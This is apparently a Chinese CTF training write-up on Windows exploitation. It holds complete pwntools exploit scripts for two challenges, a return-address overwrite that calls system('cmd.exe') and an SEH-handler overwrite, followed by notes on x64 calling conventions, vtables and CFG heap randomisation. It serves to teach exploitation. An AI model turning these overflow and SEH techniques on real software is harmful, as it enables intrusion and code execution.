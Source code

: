 ```yaml
---
title: XMAN之旅-windows exploit technique
date: 2017-08-05 12:27:08
categories: xman
tags: [windows,调试]
---
```


### 1. babyrop

> leak MSVCR100 address => get system address => get address of "cmd.exe" => overwrite return address with system address

```python
# -*- coding: utf-8 -*-

from pwn import *

p = process("./babyrop.exe")

p.recvuntil("name")
p.sendline("A"*24)
p.recvuntil("A"*24)
crt = p.recv(4)

msvcr_base = u32(crt) - 0x1d1af
system_address = msvcr_base + 0x62632
cmd_address = msvcr_base + 0x43030

payload = "A"*0xCC+"AAAA"+p32(system_address)+p32(0xdeadbeaf)+p32(cmd_address)

p.recvuntil("input your message length")
p.sendline(str(len(payload)))
p.sendline(payload)
p.interactive()
```

payload:
> padding + system_address + 4 bytes padding + cmd_address

### 2. babyrop2

> leak babyrop2 address and stack address => get system("cmd.exe") address and seh address => get first seh handler offset

```python
# -*- coding: utf-8 -*-
from pwn import *

p = process("./babyrop2.exe")

p.recvuntil("input your name")
p.send("A"*68+"\x0a")
p.recvuntil("A"*68)
crt = p.recv(8)

babyrop2_address = (u32(crt[0:4]) >> 16) << 16
ebp_address = u32(crt[4:8]) + 0x4
system_cmd_address = babyrop2_address + 0x1117

print hex(babyrop2_address)
print hex(ebp_address)

message_address = ebp_address - 0xCC
first_seh_address = ebp_address + 0x38
offset = first_seh_address - message_address
next_seh_address = ebp_address + 0x94

payload = "A"*offset + p32(next_seh_address) + p32(system_cmd_address)+"A"*30000
p.recvuntil("input your message length")
p.sendline(str(len(payload)))
p.sendline(payload)
p.interactive()
```

代码说明：

1. 首先通过第一个printf函数leak出babyrop2地址、main函数中的ebp地址

2. 然后通过ida获取message在main函数中偏移为[bp-CCh]，通过windbg获取first seh的地址与ebp之间的差值为0x38。于是结合起来就可以获得填充字符串数offset

3. 通过windbg获取first ebp所指向的下一个seh地址 与 ebp之间的差值 0x94

4. 为了让程序进入异常，我们在payload后加入很长的字符串

payload:
> padding + next_seh_address + system_cmd_address + long string

### 3. babyvtable

了解一些基本的知识点

#### 3.1 windows x64平台fastcall调用约定

1. 前四个整型或指针类型参数由RCX,RDX,R8,R9依次传递，前四个浮点类型参数由XMM0,XMM1,XMM2,XMM3依次传递。

2. 调用函数为前四个参数在调用栈上保留相应的空间，称作shadow space或spill slot。即使被调用方没有或小于4个参数，调用函数仍然保留那么多的栈空间，这有助于在某些特殊情况下简化调用约定。

3. 除前四个参数以外的任何其他参数通过栈来传递，从右至左依次入栈。

4. 由调用函数负责清理调用栈。

5. 小于等于64位的整型或指针类型返回值由RAX传递。

6. 浮点返回值由XMM0传递。

7. 更大的返回值(比如结构体)，由调用方在栈上分配空间，并有RCX持有该空间的指针并传递给被调用函数，因此整型参数使用的寄存器依次右移一格，实际只可以利用3个寄存器，其余参数入栈。函数调用结束后，RAX返回该空间的指针。

8. 除RCX,RDX,R8,R9以外，RAX、R10、R11、XMM4 和 XMM5也是易变化的(volatile)寄存器。

9. RBX, RBP, RDI, RSI, R12, R14, R14, and R15寄存器则必须在使用时进行保护。

10. 在寄存器中，所有参数都是右对齐的。小于64位的参数并不进行高位零扩展，也就是高位是无法预测的垃圾数据。

#### 3.2 C++虚表介绍

1. 当类继承了父类（父类含有虚函数），或者类中本来就有虚函数，那么编译之后就会产生虚表。

2. 若A、B继承了父类C，那么在rdata段中将会有连续的空间存放A继承C的虚函数指针、B继承C的虚函数指针

3. 实例化A或B时，将会在栈空间，则地址的首部放置指向虚表的指针，紧接着是各个局部变量;若是new()创建，则是堆空间，这时局部变量放置到栈空间，malloc的变量放置到堆空间。

#### 3.3 本题说明

由于babyvtable使用了CFG、ASLR、DEP、GS、SafeSEHOP等完整的防护机制，看起来貌似无懈可击，但是CFG的堆地址随机分配，导致我们可以让结构体、结构体中某个变量malloc出的字符串 并不一定成前后分布。

兴许堆地址随机分配，可能造成结构体中某个变量malloc出的字符串在结构体的前面，从而堆溢出造成覆盖虚表指针等操作！

**CFG打开一般需要连续malloc同一区域16次，或不连续malloc同一区域0x40次！打开CFG，意味着malloc的堆地址随机化！**

**由于windows的ASLR是以页为单位，也即4k大小为单位，所以为了判断某个位置是否是结构体开始的虚表指针，只需要查找其在主程序中的位置偏移（33f0），由于页为4k，大小为1.5个字节，所以比较的时候是ord(msg[i])==0xf0 and (ord(msg[i+1])&0x0f)==0x3**

**idata段中放置了一些程序用到的函数iat**